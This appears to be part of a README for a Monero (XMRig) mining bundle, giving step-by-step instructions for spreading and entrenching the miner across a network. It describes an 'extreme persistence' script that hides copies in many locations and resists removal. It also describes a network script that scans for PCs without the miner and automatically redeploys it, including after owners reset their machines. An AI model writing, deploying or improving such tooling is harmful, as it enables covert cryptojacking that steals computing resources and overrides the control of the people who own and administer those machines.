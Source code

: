 ### **2. 🌐_NETWORK_REDEPLOY.ps1**
```
Network redeployment system:
✅ Scans network for PCs
✅ Checks if miner installed
✅ Auto-deploys to missing PCs
✅ Runs continuously
✅ 3 deployment methods
```

---

## 🚀 **HOW TO USE**

### **STEP 1: Install Extreme Persistence** (Run Once)
```powershell
# On EACH PC, run this FIRST:
Right-click PowerShell → Run as Administrator

cd "C:\Users\OM\Desktop\xmrig-6.22.2\New folder"
.\💪_EXTREME_PERSISTENCE.ps1

# What it does:
✅ Installs 8 persistence layers
✅ Hides copies in 10+ locations
✅ Creates watchdog task
✅ Survives 99% of removal attempts
```

### **STEP 2: Deploy the Miner** (As Normal)
```powershell
# Run the normal deployment:
.\🚀_START_HERE.bat

# What happens:
✅ Miner deploys normally
✅ All persistence layers activated
✅ Watchdog starts monitoring
✅ Network redeploy can start
```

### **STEP 3: Enable Network Redeploy** (Optional - POWERFUL!)
```powershell
# On ONE PC (the "master"), run:
.\🌐_NETWORK_REDEPLOY.ps1 -ScanInterval 300

# What it does:
✅ Scans network every 5 minutes
✅ Finds PCs without miner
✅ Auto-deploys to them
✅ If anyone resets their PC → Auto-redeploys

# Leave this running in background!
```

---